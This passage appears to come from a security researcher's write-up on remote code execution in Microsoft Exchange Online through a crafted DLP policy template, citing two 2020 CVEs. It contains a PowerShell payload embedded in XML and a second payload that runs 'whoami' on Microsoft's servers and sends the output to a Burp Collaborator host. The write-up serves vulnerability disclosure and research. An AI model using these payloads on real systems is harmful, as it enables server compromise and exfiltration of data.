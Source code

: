 ```xml
      <commandBlock>
        <![CDATA[ $i=New-object System.Diagnostics.ProcessStartInfo;$i.UseShellExecute=$true;$i.FileName="cmd";$i.Arguments="/c mspaint";$r=New-Object System.Diagnostics.Process;$r.StartInfo=$i;$r.Start() ]]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>
```

## ~~Attacking~~ Testing Microsoft Servers

When testing, I targeted the `outlook.office365.com` and `outlook.office.com` servers and I had to change the payload a bit to access the stdout of the executed process and ship it off to my burp collaborator server:

![Gaining remote code execution as SYSTEM on Microsoft's cloud](/assets/images/making-clouds-rain/whoami.png "Gaining remote code execution as SYSTEM on Microsoft's cloud")

```ps
$i=New-object System.Diagnostics.ProcessStartInfo;
$i.RedirectStandardOutput=$true;
$i.CreateNoWindow=$false;
$i.UseShellExecute=$false;
$i.FileName="cmd";
$i.Arguments="/c whoami";
$r=New-Object System.Diagnostics.Process;
$r.StartInfo=$i;
$r.Start();
$stdout=$r.StandardOutput.ReadToEnd();
$r.WaitForExit();
$wc=New-Object system.Net.WebClient;
$wc.downloadString("http://qpjx5jhw5iepwty74syonufe85ev2k.burpcollaborator.net/$stdout");
```


[^1]: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-16875](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-16875)
[^2]: [https://office365itpros.com/2019/10/24/office-365-hits-200-million-monthly-active-users/](https://office365itpros.com/2019/10/24/office-365-hits-200-million-monthly-active-users/)
[^3]: [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.1)
[^4]: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17132](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17132)
[^5]: [https://en.wikipedia.org/wiki/Software_as_a_service](https://en.wikipedia.org/wiki/Software_as_a_service)